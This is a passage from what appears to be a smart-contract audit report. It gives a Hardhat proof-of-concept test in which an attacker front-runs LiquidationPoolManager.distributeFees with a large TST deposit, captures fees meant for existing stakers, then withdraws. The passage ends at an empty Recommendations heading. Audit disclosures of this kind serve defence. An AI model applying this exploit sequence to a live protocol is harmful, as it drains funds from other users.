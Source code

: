 ```javascript
  const tstPosition5Value = ethers.utils.parseEther("600000");
  await TST.mint(holder5.address, tstPosition5Value);
  await TST.connect(holder5).approve(LiquidationPool.address, tstPosition5Value);
  await LiquidationPool.connect(holder5).increasePosition(tstPosition5Value, 0);

  // #endregion @audit users' deposits

  // @audit Fast forward 1 day, to consolidate all users' pending stakes
  await fastForward(DAY);

  // #region @audit FRONTRUN: just before the `distributeFees` call, a malicious user deposits more TST than all other pendingStakes
  const tstAttackValue = ethers.utils.parseEther("700000");
  await TST.mint(attacker.address, tstAttackValue);
  await TST.connect(attacker).approve(LiquidationPool.address, tstAttackValue);
  await LiquidationPool.connect(attacker).increasePosition(tstAttackValue, 0);
  // #region @audit Just before the `distributeFees` call, a malicious user deposits more TST than all other pendingStakes

  // @audit mint EUROs which will be distributed
  const feeBalance = ethers.utils.parseEther("1000");
  await EUROs.mint(LiquidationPoolManager.address, feeBalance);

  // @audit `LiquidationPoolManager.distributeFees` calls `LiquidationPool.distributeFees` which distributes all the EUROs among the existing positions and pending stakes (at that moment only the attacker's pending stake)
  await LiquidationPoolManager.distributeFees();

  // @audit Fast forward 1 day, to consolidate all users' pending stakes (at that moment only the attacker's pending stake)
  await fastForward(DAY);

  // @audit attacker can decrease his position to withdraw all the TST + the profit in the form of EUROs
  await LiquidationPool.connect(attacker).decreasePosition(
    ethers.utils.parseUnits("700000000000000000000000", "wei"), // @audit withdraw all deposited TST
    ethers.utils.parseUnits("251067034898317850866", "wei") // @audit-issue reward
  );
});
```

## Impact

Loss of funds for the all other users which have already consolidated stakes.

## Tools Used

Manual Review

## Recommendations
